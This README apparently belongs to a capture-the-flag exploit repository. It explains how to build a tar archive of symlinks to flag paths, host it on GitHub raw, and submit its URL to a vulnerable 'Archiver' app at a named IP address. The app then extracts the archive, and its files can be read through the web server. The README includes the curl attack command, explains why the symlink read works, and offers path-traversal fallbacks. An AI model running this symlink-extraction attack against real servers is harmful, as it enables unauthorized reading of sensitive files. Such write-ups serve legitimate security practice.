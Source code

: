 # Hosting exploit tar for the Archiver app

This repository contains `make_symlink_tar.py` which creates `exploit.tar` containing several symlink entries that point to common flag locations (for example `/flag`, `/flag.txt`, `/root/flag`, `/home/ctf/flag`).

How to use

1. Run the script locally (optional verification):

```powershell
Set-Location 'C:\Users\Alexandru Moga\Documents\first-gooogot-game\explo'
python .\make_symlink_tar.py
# this produces exploit.tar in the same directory
```

2. Upload `exploit.tar` to a public GitHub repository. After pushing the file, obtain the raw URL (example):

```
https://raw.githubusercontent.com/<youruser>/<repo>/main/exploit.tar
```

3. Point the vulnerable Archiver app at the raw URL by POSTing the URL in the `url` form field, or use curl:

```powershell
# using curl on your machine (the server will fetch this URL)
curl -X POST -d "url=https://raw.githubusercontent.com/<youruser>/<repo>/main/exploit.tar" http://89.144.35.159:1337/
```

What this does

The Archiver app will run:

```
curl -sk '<URL you provided>' | tar --no-overwrite-dir --no-same-owner --no-same-permissions -xf -
```

When `exploit.tar` is fetched and extracted inside the app's `uploads/<unique>` directory, it will create symlink entries such as `flag` that point to absolute paths like `/flag` or `/flag.txt`. The web app then lists files in that `uploads/<unique>` directory and provides links to them. If the webserver follows symlinks when serving static files, visiting the `uploads/.../flag` link will return the contents of the real target file (the flag).

Notes and caveats

- GitHub raw URLs serve the file with correct MIME and should work with `curl` on the target server. If GitHub blocks access from the target, you can host the tar on any public HTTP server reachable by the target.

- If the target's `tar` refuses or blocks symlink extraction, try creating a tar with a single file named `flag` whose contents are a path-traversal read instruction (less likely). Another option is to include a file named `../../../../flag` (path traversal) but many tars will sanitize or the server may block absolute/parent paths.

- Use this only on systems you have permission to test.
